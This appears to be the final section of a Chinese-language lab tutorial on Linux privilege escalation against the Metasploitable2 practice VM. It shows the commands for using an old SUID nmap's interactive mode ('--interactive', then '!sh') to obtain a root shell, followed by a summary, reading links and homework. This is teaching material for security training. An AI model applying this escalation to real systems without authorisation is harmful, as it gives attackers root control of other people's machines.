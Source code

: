 该版本的 nmap 也是一个非常老的版本，通过 nmap 选项，能够让用户执行 Shell 命令，在终端中，我们输入如下命令：

```
# 让用户自行 Shell 命令
/usr/bin/nmap --interactive
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480406522209.png-wm)

接着在命令终端中，输入如下命令：

```
#  输入!sh 进行提权
nmap> !sh 
```

接着 `nmap>` 消失，此时，再次使用 `whoami` 命令查看当前用户是谁：

```
# 查看当前的用户是谁
whoami
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480406813156.png-wm)

好了，现在你就是 `root`， `root` 就是你了，提权成功！

目标靶机 Metasploitable2 上的 namp 版本比较老旧，其中的版本漏洞由于目标主机的管理员安全意识比较薄弱，没有及时地更新这些漏洞软件。这些漏洞因为逻辑错误等原因，非常容易被黑客利用，并进行相应的提权。

## 五、总结

### 5.1 总结

该提权实验，首先通过 MSF 终端，对目标主机进行渗透攻击，接着获取一个非 root 的权限，接着再通过查看操作系统的版本信息，内核信息，以及查找可以用的 SUID 文件来提权。综合这些信息后，我们就对漏洞进行一个评估，接着尝试通过可能存在的漏洞，进行 Linux 服务器提权，从而达到掌控目标机器的目的。总结一下该实验的知识点：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 使用目标主机漏洞进行提权
- 验证是否提权成功

## 六、推荐阅读

### 6.1 推荐阅读

在做本实验的课程的同时，推荐大家一些阅读文档，增加对 Linux 提权信息的理解。以下为推荐文档的链接地址：

> http://docs.kali.org/policy/kali-linux-root-user-policy

Youtube 视频（可选，需要翻墙），不影响本次实验的操作，只是增加大家的课外阅读，加深对 Kali 的理解：

> https://www.youtube.com/watch?v=-ib3wzto5m0

## 七、课后作业

### 7.1 课后作业

完成以下作业，巩固实验知识，在进行动手实验的同时，还要提升自己的理论知识：

- 对本实验的操作，亲自动手实现一遍
- 理解 Linux 服务提权的过程
- 搜索下看是否还有其他的提权漏洞可以利用？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。